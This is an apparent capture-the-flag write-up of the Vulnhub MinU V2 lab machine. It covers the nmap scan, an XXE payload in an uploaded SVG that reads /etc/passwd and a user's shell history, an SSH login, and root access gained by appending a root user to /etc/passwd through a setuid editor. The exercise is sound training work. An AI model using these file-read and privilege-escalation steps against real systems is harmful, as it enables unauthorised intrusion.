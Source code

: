 ```yaml
---
layout:     post
title:      "Vulnhub - MinU V2"
subtitle:   "MinU V2 Writeup"
date:       2019-07-26
author:     "d4mianwayne"
permalink: /:title/
category: Vulnhub
---
```


Writeup of MinU V2 from Vulnhub.

# Nmap

Scanning the netwrk reveals we have only two ports open **3306** which is default port for my MySQL and **22** which is default port for SSH. But with the version scanning and `-A` argument we see that nmap has a "?" symbol on the ned of mysql which means that it is not sure that the service running on port **3306** is MySQL or nor. But the further scan reveals it has a HTML page.

```
robin@oracle:~$ nmap -sV -sC -A -p- -T5 192.168.43.172 

Starting Nmap 7.60 ( https://nmap.org ) at 2019-07-26 11:51 IST
Nmap scan report for minuv2 (192.168.43.172)
Host is up (0.00010s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 82:33:25:61:27:97:ea:4a:49:f5:76:a3:33:1c:ae:2b (RSA)
|   256 ed:ca:f6:b9:b5:39:32:89:d0:a3:36:94:82:04:4a:e8 (ECDSA)
|_  256 26:79:15:2e:be:93:02:41:04:c9:ea:e8:05:16:d1:83 (EdDSA)
3306/tcp open  mysql?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain
|     Transfer-Encoding: chunked
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     X-Powered-By: Kemal
|     Content-Type: text/html
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <style type="text/css">
|     body { text-align:center;font-family:helvetica,arial;font-size:22px;
|     color:#888;margin:20px}
|     max-width: 579px; width: 100%; }
|     {margin:0 auto;width:500px;text-align:left}
|     </style>
|     </head>
|     <body>
|     <h2>Kemal doesn't know this way.</h2>
|_    <svg id="svg" version="1.1" width="400" height="400" viewBox="0 0 400 400" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" ><g id="svgg"><path id="path0" d="M262.800 99.200 L 262.800 150.400 265.461 150.400 L 268.121 150.400 267.864 144.300 C 267.722 140.945,267.510 120.110,267.391 98.000 C 267.273 75.890,267.074 55.595,266.948 52.900 L 266.719 48.000 264.760 48.000 L 262.800 48.000 262.800 99.200 M160.800 290.800 C 160.800 291.301,161.224 291.301,162.000
|_mysql-info: ERROR: Script execution failed (use -d to debug)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.60%I=7%D=7/26%Time=5D3A9C06%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,6D,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain\r\nTransfer-Encoding:\x20chunked\r\n\r\n10\r\n400\x20Bad\x20R
SF:equest\n\r\n0\r\n\r\n")%r(GetRequest,642C,"HTTP/1\.0\x20404\x20Not\x20F
SF:ound\r\nX-Powered-By:\x20Kemal\r\nContent-Type:\x20text/html\r\n\r\n\x2
SF:0\x20<!DOCTYPE\x20html>\n\x20\x20<html>\n\x20\x20<head>\n\x20\x20\x20\x
SF:20<style\x20type=\"text/css\">\n\x20\x20\x20\x20body\x20{\x20text-align
SF::center;font-family:helvetica,arial;font-size:22px;\n\x20\x20\x20\x20\x
SF:20\x20color:#888;margin:20px}\n\x20\x20\x20\x20img\x20{\x20max-width:\x
SF:20579px;\x20width:\x20100%;\x20}\n\x20\x20\x20\x20#c\x20{margin:0\x20au
SF:to;width:500px;text-align:left}\n\x20\x20\x20\x20</style>\n\x20\x20</he
SF:ad>\n\x20\x20<body>\n\x20\x20\x20\x20<h2>Kemal\x20doesn't\x20know\x20th
SF:is\x20way\.</h2>\n\x20\x20\x20\x20<svg\x20id=\"svg\"\x20version=\"1\.1\
SF:"\x20width=\"400\"\x20height=\"400\"\x20viewBox=\"0\x200\x20400\x20400\
SF:"\x20xmlns=\"http://www\.w3\.org/2000/svg\"\x20xmlns:xlink=\"http://www
SF:\.w3\.org/1999/xlink\"\x20><g\x20id=\"svgg\"><path\x20id=\"path0\"\x20d
SF:=\"M262\.800\x2099\.200\x20L\x20262\.800\x20150\.400\x20265\.461\x20150
SF:\.400\x20L\x20268\.121\x20150\.400\x20267\.864\x20144\.300\x20C\x20267\
SF:.722\x20140\.945,267\.510\x20120\.110,267\.391\x2098\.000\x20C\x20267\.
SF:273\x2075\.890,267\.074\x2055\.595,266\.948\x2052\.900\x20L\x20266\.719
SF:\x2048\.000\x20264\.760\x2048\.000\x20L\x20262\.800\x2048\.000\x20262\.
SF:800\x2099\.200\x20M160\.800\x20290\.800\x20C\x20160\.800\x20291\.301,16
SF:1\.224\x20291\.301,162\.000")%r(HTTPOptions,642C,"HTTP/1\.0\x20404\x20N
SF:ot\x20Found\r\nX-Powered-By:\x20Kemal\r\nContent-Type:\x20text/html\r\n
SF:\r\n\x20\x20<!DOCTYPE\x20html>\n\x20\x20<html>\n\x20\x20<head>\n\x20\x2
SF:0\x20\x20<style\x20type=\"text/css\">\n\x20\x20\x20\x20body\x20{\x20tex
SF:t-align:center;font-family:helvetica,arial;font-size:22px;\n\x20\x20\x2
SF:0\x20\x20\x20color:#888;margin:20px}\n\x20\x20\x20\x20img\x20{\x20max-w
SF:idth:\x20579px;\x20width:\x20100%;\x20}\n\x20\x20\x20\x20#c\x20{margin:
SF:0\x20auto;width:500px;text-align:left}\n\x20\x20\x20\x20</style>\n\x20\
SF:x20</head>\n\x20\x20<body>\n\x20\x20\x20\x20<h2>Kemal\x20doesn't\x20kno
SF:w\x20this\x20way\.</h2>\n\x20\x20\x20\x20<svg\x20id=\"svg\"\x20version=
SF:\"1\.1\"\x20width=\"400\"\x20height=\"400\"\x20viewBox=\"0\x200\x20400\
SF:x20400\"\x20xmlns=\"http://www\.w3\.org/2000/svg\"\x20xmlns:xlink=\"htt
SF:p://www\.w3\.org/1999/xlink\"\x20><g\x20id=\"svgg\"><path\x20id=\"path0
SF:\"\x20d=\"M262\.800\x2099\.200\x20L\x20262\.800\x20150\.400\x20265\.461
SF:\x20150\.400\x20L\x20268\.121\x20150\.400\x20267\.864\x20144\.300\x20C\
SF:x20267\.722\x20140\.945,267\.510\x20120\.110,267\.391\x2098\.000\x20C\x
SF:20267\.273\x2075\.890,267\.074\x2055\.595,266\.948\x2052\.900\x20L\x202
SF:66\.719\x2048\.000\x20264\.760\x2048\.000\x20L\x20262\.800\x2048\.000\x
SF:20262\.800\x2099\.200\x20M160\.800\x20290\.800\x20C\x20160\.800\x20291\
SF:.301,161\.224\x20291\.301,162\.000");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94

```


# HTTP Enumeration and SVG XXE LFI

Checking the webpage at `http://192.168.43.172:3306` it has a webpage as analyzed by nmap. But nothing much was there, running gobuster wuth defined file extensions like html, php, xml gives us a `upload.html which turns out to be a upload service but only for SVGs.

![](/img/minu2/gobuster.png)

At first, I thought we have to upload the reverse shell by faking up the header of file but searching through the internet gives us a article [SVG LFI](https://quanyang.github.io/x-ctf-finals-2016-john-slick-web-25/) which wasa CTF challenge back in 2016. So crafting our payload:-

```

<?xml version="1.0"?>
<!DOCTYPE svg [
<!ENTITY output SYSTEM "file:///etc/passwd">
]>
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
<xxe>&output;</xxe>
</svg>

```

![](/img/minu2/etcpass.png)

This will land us to another page saying **Upload OK** and checking the source of the page gives the content of `/etc/passwd` file. Analyzing it for a bit we get to see a entry of user `employer` who has a `/bin/ash` as it's shell. Trying to chck for multiple things like mail, logs etc. I thought of checking `.bash_history` for a second but it was a dead end. Then I tried to open `.ash_history` which has following contents:-

```
<?xml version="1.0"?>
<!DOCTYPE svg [
<!ENTITY output SYSTEM "file:////home/employee/.ash_history">
]>
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
<xxe>useradd -D bossdonttrackme -p superultrapass3


exit
</xxe>
</svg>
Upload OK

``` 

Hence, we got a password for user `employer`.

# SSH Login and Root Flag

Using above password, we logged in the minu2 machine via SSH as `employer`. So, starting off with basic enumeration I tried `sudo -l` but got a error. So, I tried `find / -perm -u=s -type f 2>/dev/null` which shows we can use **micro** and **bissuid**. This was time consuming since we have nothing more than a CLI editor and none of the files having any relevant informations. So, I thought that we can access the `/etc/passwd` so I tried to edit with micro with `cat /etc/passwd | micro`. Going to the bottom we add a user since we can use su which can be use to elevate users. 
Using `openssl -passwd -1 -salt new 123` gives us a hash of password so editing the file by adding this line at end `robin:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:root:/bin/ash`. But here we gwt another problem because there is no file like `/bin/ash` so to try again I chnaged it to `robin:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:root:/bin/ashh` which succesfully gives root shell.

![](/img/minu2/root.png)

